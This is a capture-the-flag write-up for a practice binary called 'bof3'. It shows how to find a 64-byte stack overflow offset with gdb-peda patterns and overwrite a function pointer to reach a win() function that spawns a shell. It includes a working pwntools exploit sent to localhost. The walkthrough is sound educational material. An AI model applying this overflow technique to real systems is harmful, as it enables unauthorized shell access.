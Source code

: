 # Bof3 Writeup

## recon
The first step to breaking this binary is to get the ASM output of the binary. This can be done through: `objdump -d -M intel bof3 > bof3.asm`. After is done, you can begin determining which functions are breakable in GDB.

As we scroll through the asm file in an editor of your choice, we will see that there are `win, lose, and main` functions. These are the functions in which we will need to set breakpoints so that we can begin to walk the code execution paths.

## Vulnerability Analysis
Looking at the individual functions, we can begin to see the general idea for the code execution path of the program.

Within the main function, we can see references to the lose function:

Register values at this instruction:
```
EAX: 0x80484b4 (<lose>:	push   ebp)
EBX: 0xf7fc1ff4 --> 0x1a2d7c 
ECX: 0x1 
EDX: 0xf7fc38c4 --> 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0xffffd1b8 --> 0x0 
ESP: 0xffffd150 --> 0x80485fd --> 0x1007325 
EIP: 0x80484fc (<main+42>:	call   eax)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
```
ASM:
```
   0x804851c <main+41>:	add    esp,0x10
   0x804851f <main+44>:	mov    eax,DWORD PTR [ebp-0xc]
=> 0x8048522 <main+47>:	call   eax                         ; This is the point in which it calls the address of lose
```
Based on this, we can tell that we need to overwrite the code execution path so that we do not hit the lose function. In this case, it requires us overwritting the value of `EAX` to point to the `win` function before we get to the `call eax` instruction.

## Exploitation
Given that we know this program accepts input through scanf, we can assume we have a buffer that will be storing whatever we enter into the program. This means that we may have the opportunity to overflow the buffer to gain control of the stack, which is required to modify the value of `EAX` before the `call eax` instruction.

To exploit this type of program, one of the easiest way to get a rough estimate of how much data to send to the program to hit a buffer overflow is to look at the prologue:
```
   0x80484d2 <main>:	push   ebp
   0x80484d3 <main+1>:	mov    ebp,esp
   0x80484d5 <main+3>:	and    esp,0xfffffff0
   0x80484d8 <main+6>:	sub    esp,0x60
```
Based on this we can see that we were allocated roughly 96 bytes on the stack for variables/operations (indicated by `sub esp,0x60`). Therefore, we can now get a rough estimate for how many characters we need to send to the program to get undefined behaviour (in this case, I use 100).

One of the easiest ways to figure out how many characters it takes to get to the value of EAX on the stack is to use the `pattern` command in gdb:
```
gdb-peda$ pattern create 100 u_pattern.txt
Writing pattern of 100 chars to filename "u_pattern.txt"
```
This creates a pattern string of unique sequences that we can enter as input to our program while it is running in gdb. This allows us to search for the index of a particular sequence we find in the eax register after we input the string into the program. This index then gives us the indication as to how many characters are needed before we can overwrite the address in `EAX`.

To use this pattern in gdb, you set your breakpoints and run: `r < u_pattern.txt`. Once this is done, you can now `next` until you hit the `call eax` instruction. Once there, you can observe that the `EAX` register contains the value of a sequence within your pattern string, instead of the address to `lose`. In order to make this useful to you, you must save this sequence (copy it into gedit/nano/notepad/etc) to find the index for later on. In my case, the sequence was:
```
EAX: 0x41644141 ('AAdA')
```
Now that we have the sequence, we now have to find out what index this is within the pattern string. To do this, we can do the following:
```
$ cat u_pattern.txt
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
```
This will allow us to copy down our entire pattern string, which we will need so that we can find the index of our sequence within it. To find the index, I use python and the `.index()` function on a string type, as seen below:
```
$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41) 
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> "AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL".index("AAdA")
64
>>> exit()
```
This allows us to see that it took 64 bytes to reach the value of `EAX` on the stack before the `call eax` instruction. Knowing this, we can now build our exploit string. Since we know that it takes 64 bytes to reach the address read into `EAX`, we can send 64 bytes of whatever character we want. In my case, i use the character `"A"`. We then append the packed address of the `win` function, which contains a system call, to our exploit string. This will allow us to call the `win` function, instead of the `lose` function. Therefore, we will take advantage of the `pwntools` module for the `p32` function to pack our function's address. Therefore, we would use `p32(0x08048494)` to get the packed value of the win function address.

Once we are done with this, we can test our exploit by doing:
```
$ python -c "from pwn import *; print ('A' * 64) + p32(0x08048494)" > exploit_string.txt
```
followed by opening gdb with the executable again, resetting the breakpoints, and running with `r < exploit_string.txt` to now supply the input with our exploit string. You can then next all the way to the `call eax` instruction. Once there, you can see how we now have the address of the `win` function in `EAX`. Therefore, if you hit `next` once again, we should now be within the `win` function:
```
=> 0x804849a <win+6>:	mov    DWORD PTR [esp],0x80485e0
   0x80484a1 <win+13>:	call   0x8048380 <puts@plt>
   0x80484a6 <win+18>:	mov    DWORD PTR [esp],0x80485ea
   0x80484ad <win+25>:	call   0x8048390 <system@plt>
   0x80484b2 <win+30>:	leave
```
Therefore, if we continue stepping through the function, we shoudl hit the line:
```
   0x80484ad <win+25>:	call   0x8048390 <system@plt>
```
which will provide us shell access in our program. Now, it is notable that we will not get shell access within GDB. however, we know that we hit the system call, which is all that really matters right now, as we now know that we are able to modify the code execution path to hit the system call. An example of what you may see in GDB once you hit the system call is as follows:
```
[New process 3372]
process 3372 is executing new program: /bin/dash
warning: Selected architecture i386:x86-64 is not compatible with reported target architecture i386
Architecture of file not recognized.
```

If we actually want to be able to get a shell, this will require us building a script to connect to this program running on localhost. Therefore, you will need to have `socat` running on your local so that you can connect to yourself through your exploit script.

Now, there is a copy of the exploit script within this directory of the repository that you can actively run instead of having to copy and paste the following excerpts, however, for the sake of clarity, I will be walking through the exploit script breifly:

First of all, you must import `pwntools`:
```
from pwn import *
```
This imports all of the pwntool modules into the local namespace in python. You then need to set up your remote connection to connect to whatever IP and PORT you are listening to on `socat` (in my case, its `localhost:1234`):
```
r = remote("localhost", 1234)
```
You then need to create your exploit to send to the application listening on this address:
```
exploit = ("A" * 64) + p32(0x08048494)
```
Finally, you send your string to the application, and call the `.interactive()` function to create an interactive shell:
```
r.send(exploit)
r.interactive()
```
There you go! You just owned the challenge!
